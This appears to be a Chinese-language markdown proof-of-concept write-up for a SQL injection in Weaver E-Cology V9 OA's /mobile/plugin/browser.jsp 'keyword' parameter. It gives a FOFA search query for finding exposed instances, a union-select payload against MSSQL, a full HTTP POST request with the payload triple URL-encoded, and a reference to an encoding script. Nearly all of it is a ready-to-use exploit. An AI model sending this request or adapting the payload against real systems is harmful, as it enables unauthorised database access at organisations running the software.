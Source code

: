 # 泛微OA E-Cology V9 browser.jsp SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同商务系统"`  
![](./img/E-CologyV9_sql.png)
## POC
漏洞位置：  
POS请求:/mobile/%20/plugin/browser.jsp ，参数：keyword ，exp需要三次url编码，MSSQL数据库  
poc：a' union select 1,''+(SELECT @@VERSION)+'  
```
POST /mobile/%20/plugin/browser.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close
Content-Length: 649

isDis=1&browserTypeId=269&keyword=%2525%2536%2531%2525%2532%2537%2525%2532%2530%2525%2537%2535%2525%2536%2565%2525%2536%2539%2525%2536%2566%2525%2536%2565%2525%2532%2530%2525%2537%2533%2525%2536%2535%2525%2536%2563%2525%2536%2535%2525%2536%2533%2525%2537%2534%2525%2532%2530%2525%2533%2531%2525%2532%2563%2525%2532%2537%2525%2532%2537%2525%2532%2562%2525%2532%2538%2525%2535%2533%2525%2534%2535%2525%2534%2563%2525%2534%2535%2525%2534%2533%2525%2535%2534%2525%2532%2530%2525%2534%2530%2525%2534%2530%2525%2535%2536%2525%2534%2535%2525%2535%2532%2525%2535%2533%2525%2534%2539%2525%2534%2566%2525%2534%2565%2525%2532%2539%2525%2532%2562%2525%2532%2537
```
![](./img/E-CologyV9_sql_poc.png)
## URL三次编码脚本
可使用[python脚本](file/urlEncode3.py)进行三次url编码，命令：`python3 urlEncode3.py`